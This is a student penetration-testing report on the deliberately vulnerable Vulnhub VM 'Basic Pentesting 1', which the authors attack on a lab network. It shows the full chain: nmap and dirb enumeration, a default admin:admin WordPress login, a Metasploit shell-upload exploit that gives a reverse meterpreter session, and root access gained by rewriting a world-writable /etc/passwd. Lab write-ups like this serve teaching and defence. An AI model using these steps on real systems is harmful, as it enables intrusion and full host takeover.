 # Basic Pentesting 1 — Vulnhub

Alexander Hoffmann - alexander.hoffmann@edu.ece.fr\
Ludovic Fritel - ludovic.fritel@edu.ece.fr\
Vincent Cadenet - vincent.cadenet@edu.ece.fr

## Executive summary
Our team conducted a comprehensive security assessment of a small boot2root Vulnhub VM in order to determine existing vulnerabilities and establish the current level of security risk associated with the environment and the technologies in use.

## Test scope
The test scope for this engagement included one host on a virtual machine connected to a local network containing a web application.

Testing was performed March 28 – March 29, 2020.

Testing was performed using industry-standard penetration testing tools and frameworks, including Nmap, DIRB, the Metasploit Framework, WPScan. All of these tools are contained in the Kali VM.

## Results
The table below includes the scope of the tests performed, as well as the overall results of penetration testing these environments.
| Environment tested | Result   |
| ------------------ |:---------|
| Web application    | Critical |
| Server             | Critical |

To test the security posture of the internal network, we began with a reconnaissance and host discovery phase during which we used port scans and other OSINT tools to fingerprint the operating systems, software, and  services running on the target host. After fingerprinting the various targets and determining open ports and services enabled on the host, we executed a vulnerability enumeration phase, in which we listed all potential vulnerabilities affecting the host and developed a list of viable attack vectors. Finally, in order to weed out false positives and validate any remaining vulnerabilities, we attempted to exploit all vulnerabilities affecting the target host. After comprehensive testing, critical vulnerabilities were discovered to be present in the target host, and we were ultimately able to exploit these issues to compromise the confidentiality, integrity, and availability of the host.

Multiple Critical severity issues were found affecting the host on the network, which require immediate remediation efforts in order to secure the machine against malicious attackers.

## Recommendations

Before starting our penetration tests, let's establish the architecture of our network. The target machine is connected to a host-only adapter on the network `192.168.56.0/24`. Its IP address is `192.168.56.5`. The Kali VM has two network interfaces. The first one is connected to the same host-only adapter as the target machine and has the IP address `192.168.56.6`. The second interface is a bridge adapter which connects the VM to the same network as the host machine. This is necessary to have an active internet connection on the Kali VM. An alternative would have been to use a NAT network for this interface. Both methods are viable.

First, start with an nmap scan.
```bash
nmap -p- -sS -Pn -n -vvv -oA nmap-host-ports 192.168.56.5
```
Which yields the following result:
```bash
# Nmap 7.80 scan initiated Sat Mar 28 14:33:36 2020 as: nmap -p- -sS -Pn -n -vvv -oA nmap-host-ports 192.168.56.5
Nmap scan report for 192.168.56.5
Host is up, received arp-response (0.000059s latency).
Scanned at 2020-03-28 14:33:36 EDT for 4s
Not shown: 65532 closed ports
Reason: 65532 resets
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 08:00:27:DC:6B:9A (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Mar 28 14:33:40 2020 -- 1 IP address (1 host up) scanned in 3.49 seconds
```
Observe three open ports: ftp, ssh and http. We probably need a login for ssh. Therefore, let's try to open a web browser and access both ftp and http protocols.

If we type `ftp://192.168.56.5` in the browser, we get prompted with a login screen. Hence, we know that a login will be necessary both for ssh and for ftp.

Now, type `http://192.168.56.5` in the browser. This time, we get a simple HTML page. The idea is now to determine all URLs with the given prefix. To do this, we use a tool called Dirb.
```bash
dirb http://192.168.56.5/ -r
```
This is the output:
```bash
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Mar 28 15:00:16 2020
URL_BASE: http://192.168.56.5/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.5/ ----
+ http://192.168.56.5/index.html (CODE:200|SIZE:177)                                                          
==> DIRECTORY: http://192.168.56.5/secret/                                                                    
+ http://192.168.56.5/server-status (CODE:403|SIZE:300)                                                       
                                                                                                              
-----------------
END_TIME: Sat Mar 28 15:00:18 2020
DOWNLOADED: 4612 - FOUND: 2
```
There are three results. The first one, index.html is just the landing page we already see on the screen. The second one is a server status page (supposedly) which we do not have access to (code 403). Finally, let's checkout `http://192.168.56.5/secret`.

We land on a page that seems to be a Wordpress blog. Most links on the page lead to the URL with the prefix `vtcsec`. Add a new host to /etc/hosts binding `vtcsec` to the IP address `192.168.56.5`.

Now, launch a new DIRB scan. This time, we scan recursively. This means the /secret, which is a directory, is going to be brut forced too. This time, we find an admin login page. We are can confirm that this is a Wordpress blog. Try user:admin password:admin. These credentials work. We get prompted the WP admin dashboard.

We currently have access to a WordPress Admin Dashboard. Therefore, we will use Metasploit's WordPress Admin Shell Upload exploit. This module will generate a plugin, pack the payload into it and upload it to a server running WordPress providing valid admin credentials are used.

```bash
msf5 > use exploit/unix/webapp/wp_admin_shell_upload
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set RHOST 192.168.56.5
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI secret
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST 192.168.56.6
msf5 exploit(unix/webapp/wp_admin_shell_upload) > exploit
```
It is necessary to set the local host because the default interface on the Kali VM is the bridged adapter.

We now have a shell as www-data. Upload unix-privesc-check, a shell script to check for simple privilege escalation vectors on Unix systems.
```bash
meterpreter > upload /usr/bin/unix-privesc-check
meterpreter > shell
chmod +x unix-privesc-check
./unix-privesc-check standard > out.txt
```
After reading the file out.txt, it appears that /etc/passwd is a critical file because any user has write permission. Therefore, we can change the password for the root user.
```bash
openssl passwd
Password: alex
Verifying - Password: alex
QOUne5kzinD0M
```
Edit the following line
```bash
root:QOUne5kzinD0M:0:0:root:/root:/bin/bash
```
Now, we can login to the VM using user:root, password:alex. Check user with `whoami`. It should prompt root.

## Report
The first critical security issue is the password of the WordPress Admin dashboard. A strong password:
* has 12 characters, minimum;
* includes numbers, symbols, capital letters, and lower-case letters;
* isn’t a dictionary word or combination of dictionary words;
* doesn’t rely on obvious substitutions.

Next, it is important that not every user has write permission on the /etc/passwd file as it is a text file that contains the attributes of (i.e., basic information about) each user or account on a computer running Linux or another Unix-like operating system.
The permissions for /etc/passwd are by default set so that it is world readable, that is, so that it can be read by any user on the system. This means that the system administrator changed the permissions on this critical file.

